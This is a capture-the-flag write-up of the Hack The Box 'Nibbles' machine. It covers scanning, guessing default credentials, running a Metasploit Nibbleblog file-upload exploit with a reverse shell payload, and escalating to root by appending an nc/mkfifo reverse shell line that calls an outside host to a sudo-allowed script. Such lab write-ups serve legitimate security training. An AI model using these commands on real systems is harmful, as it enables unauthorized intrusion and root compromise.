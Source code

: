 ```yaml
---
Title: Nibbles HTB Writeup
author: 0xGamer
date: 2021-01-25 9:16:00 
categories: [Walkthru, Writeup, Hackthebox]
---
```


This post contains the walkthru of the Nibbles box from hackthebox. This box has been suggested as OSCP like.

## We will start with an nmap.

### Nmap

```bash
[★]$ nmap -sC -sV -v 10.10.10.75
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-25 04:20 UTC
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### We see that port 80 (Webpage) and port 22 (SSH) are open.

 #### Lets visit the webpage.

![image-20210125095401157](https://raw.githubusercontent.com/hackarmour/hackthebox/main/assets/nibbles1.png)

#### We see a page with only Hello world! written on it... Lets check the source code

#### ![image-20210125095509153](https://raw.githubusercontent.com/hackarmour/hackthebox/main/assets/nibbles2.png)

### We see a /nibbleblog... Lets visit it 

![image-20210125095624746](https://raw.githubusercontent.com/hackarmour/hackthebox/main/assets/nibbles3.png)

### I checked the stuff but nothing interesting here on those categories and pages. Lets run  gobuster against it.

```bash 
[★]$ gobuster dir -u=10.10.10.75/nibbleblog -w=/usr/share/dirb/wordlists/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75/nibbleblog
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/25 04:33:04 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/admin.php (Status: 200)
/content (Status: 301)
/index.php (Status: 200)
/languages (Status: 301)
/plugins (Status: 301)
/README (Status: 200)
/themes (Status: 301)
===============================================================
2021/01/25 04:34:10 Finished
===============================================================
```

#### Hmm, admin.php is interesting...

![image-20210125100619910](https://raw.githubusercontent.com/hackarmour/hackthebox/main/assets/nibbles4.png)

#### Lets try the common usernames and passwords like, admin:admin or nibbles:nibbles or admin:nibbles or nibbles:admin	

#### We see that the username admin and the password nibbles work...

![image-20210125102016119](https://raw.githubusercontent.com/hackarmour/hackthebox/main/assets/nibbles5.png)

#### We get logged in but there is nothing interesting here

### Lets use searchsploit to look for an exploit on nibbleblogs

```bash
[★]$ searchsploit nibbleblog
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                 | php/remote/38489.rb
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

#### Lets start up msfconsole and use the Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)   exploit.

 ###### We are going to use this command in msfconsole to select the exploit

```bash
use exploit/multi/http/nibbleblog_file_upload
```

##### Now lets use these commands to select the payload and options

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set payload generic/shell_reverse_tcp
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set rhost 10.10.10.75
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set targeturi /nibbleblog/
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set username admin
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set lhost tun0
```

```
msf6 exploit(multi/http/nibbleblog_file_upload) > run
```

### Now you can see that we got shell as nibbler

![image-20210125103315915](https://raw.githubusercontent.com/hackarmour/hackthebox/main/assets/nibbles6.png)

#### Now lets use this command to spawn a bash shell

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### Great now we can cd /home/nibbler and cat the user flag.

#### Lets run sudo -l to check our permissions

```
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

#### Hmm we can run  monitor.sh... Let unzip the personal folder so we can access the monitor file

```
nibbler@Nibbles:/home/nibbler$ ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
nibbler@Nibbles:/home/nibbler$ cd personal/stuff
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls
monitor.sh

```

#### Lets check the monitor.sh file...

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ head monitor.sh
                  ####################################################################################################
                  #                                        Tecmint_monitor.sh                                        #
                  # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                  # If any bug, report us in the link below                                                          #
                  # Free to use/edit/distribute the code below by                                                    #
                  # giving proper credit to Tecmint.com and Author                                                   #
                  #                                                                                                  #
                  ####################################################################################################
#! /bin/bash
# unset any variable which system may be using

```

#### Lets modify the monitor.sh to get a reverse shell...

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 1234 > /tmp/f" >> monitor.sh
```

#### Now lets listen on port 1234 with netcat on a new terminal

```
[★]$ nc -nvlp 1234
listening on [any] 1234 ...

```

#### Now lets run the monitor.sh file on the box.

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
```

#### Now can check the other terminal and we can see we got root.

```
# whoami && id && cat /root/root.txt
root
uid=0(root) gid=0(root) groups=0(root)
c8a26e...
```



# Thank you!

